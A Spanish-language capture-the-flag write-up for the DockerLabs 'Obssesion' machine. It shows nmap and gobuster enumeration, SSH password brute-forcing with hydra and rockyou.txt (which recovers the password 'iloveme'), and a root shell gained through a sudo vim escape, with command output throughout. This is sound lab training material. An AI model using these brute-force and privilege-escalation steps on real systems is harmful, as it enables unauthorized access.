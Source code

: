 ## WRITEUP DE LA MÁQUINA OBSSESION DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que me tardaba mucho hacer el escaneo y para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-18 04:47 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00018s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.19 seconds
```

Observamos que los puertos 21, 22 y 80 de los servicios ftp, ssh, http respectivamente estan abiertos, vamos a tirar por observar la dirección IP en algún buscador ya que el servicio http esta abierto. Vemos la siguiente página:
<br><br>
![foto de la pagina web](https://github.com/user-attachments/assets/63946c0e-9f99-43b0-86e5-13bdaec9e64c)
)
<br><br>
Mediante fuerza bruta con la herramienta gobuster vamos a buscar directorios ocultos en dicha página web. Ejecutamos:

```shell
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br><br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br><br>
"-x" Especifica las extensiones de archivos que Gobuster intentará agregar a cada entrada en la lista de palabras. En este caso, Gobuster probará cada palabra con las extensiones .php Esto significa que si una entrada en la lista de palabras es admin, Gobuster probará admin.php

Obtenemos:
<br>

```shell
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/backup               (Status: 301) [Size: 309] [--> http://172.17.0.2/backup/]
/important            (Status: 301) [Size: 312] [--> http://172.17.0.2/important/]
/server-status        (Status: 403) [Size: 275]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

Viendo los directorios ocultos del sitio web, probamos a meter en la url http://172.17.0.2/backup/ y nos muestra otra pagina con fichero llamado "Backup.txt"
<br><br>
![foto del fichero backup.txt](https://github.com/user-attachments/assets/10d75e0e-252f-40a6-a465-14bdf2f65887)
)
<br><br>
Si pinchamos en el, nos muestra una línea de texto que dice llamarse "russoski" como usuario. En el otro directorio llamada "important" encontramos un fichero .md donde hay un escrito sobre una historia de hacking, algo interesante pero nada relevante para el writeup.
<br><br>
![foto que muestra el nombre de usuario](https://github.com/user-attachments/assets/a32a3fab-06af-4d01-95d3-6cfdd6335965)
)
<br><br>
Sabiendo el nombre de usuario vamos a realizar un ataque de fuerza bruta con hydra al servicio ssh con nombre "russoski", usaremos la wordlits "rockyou.txt"
<br>
```sh
└─$ hydra -l russoski -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2/ -t 5
```
"-l russoski" Indica qué nombre de usuario va a usar en el ataque, en este caso buscamos a russoski.
<br><br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist.
<br><br>
"ssh://172.17.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br><br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña. (Nos va a tomar un par de minutos)

Este es el resultado:
<br>

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-18 11:45:10
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 50.00 tries/min, 50 tries in 00:01h, 14344349 to do in 4781:27h, 5 active
[STATUS] 35.00 tries/min, 105 tries in 00:03h, 14344294 to do in 6830:37h, 5 active

[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-18 11:48:32
```
Encontramos en la línea apartada (la he separado yo para que sea más legible), que la contraseña es "iloveme". Ahora toca mediante conexion ssh entrar al usuario russoski. Hay veces que se cierra la conexion con un WARNING: REMOTE  HOST IDENTIFICATION HAS CHANGED!, para solucionar solo hay que ejecutar el ssh con un sudo delante:
<br>

```
└─$ sudo ssh russoski@172.17.0.2
```
```
[sudo] password for kali: 
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:R8ZiOJN33rhfvGADBLwVQ1mPV7lSmGJACOhjdTB0wMQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
russoski@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Jun 18 04:38:10 2024 from 172.17.0.1
russoski@1df4a6f0847e:~$ 
```
Toca escalar privilegios. Escribimos el comando "sudo -l" el cual  permite a un usuario verificar qué comandos tienen permiso para ejecutar como superusuario (o cualquier otro usuario especificado).

```
russoski@1df4a6f0847e:~$ sudo -l
Matching Defaults entries for russoski on 1df4a6f0847e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on 1df4a6f0847e:
    (root) NOPASSWD: /usr/bin/vim
```
Ya sabemos que hacer, ir a la página GTFObins (https://gtfobins.github.io/#) para escalar privilegios en este caso con el binario "vim". Con buscar "vim" en el buscador de la página e ir al partado de sudo, encontramos nuestra forma de ser root, en este caso tendremos que ejecutar " sudo vim -c ':!/bin/sh' "

```
russoski@1df4a6f0847e:~$ sudo vim -c ':!/bin/sh'
# whoami
root
```
Ya somos root, espero que os haya gustado este writeup, muchas gracias!
